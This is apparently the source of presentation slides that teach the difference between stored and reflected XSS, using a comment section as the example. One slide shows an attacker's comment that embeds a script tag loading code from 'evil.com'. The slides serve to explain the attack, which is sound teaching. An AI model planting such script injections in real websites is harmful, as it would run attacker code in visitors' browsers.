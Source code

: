 </section>

<section data-markdown>

## Stored vs. Reflected

</section>

<section data-markdown>

### Stored XSS

- This happens when malicious code is injected into the site/application itself
- Whenever a victim visits the compromised site, the script is executed

</section>

<section data-markdown>

## Stored XSS Example

</section>

<section>

<pre><code data-trim class="html"><posts>
	<message> ...
	</message>

	<message> ...
	</message>

</posts></code></pre>

A hacker finds a website with a comment section that allows embedded html, with the DOM looking like the above...

</section>

<section>

<pre><code data-trim class="html"><posts>
	<message> ...
	</message>

	<message> ...
	</message>

	<message> 
		Security sux! 
		<script src="http://evil.com/attack.js">
		</script>
	</message>

</posts></code></pre>

They post their own comment, effectively modifying the site's HTML for every user who views it

</section>
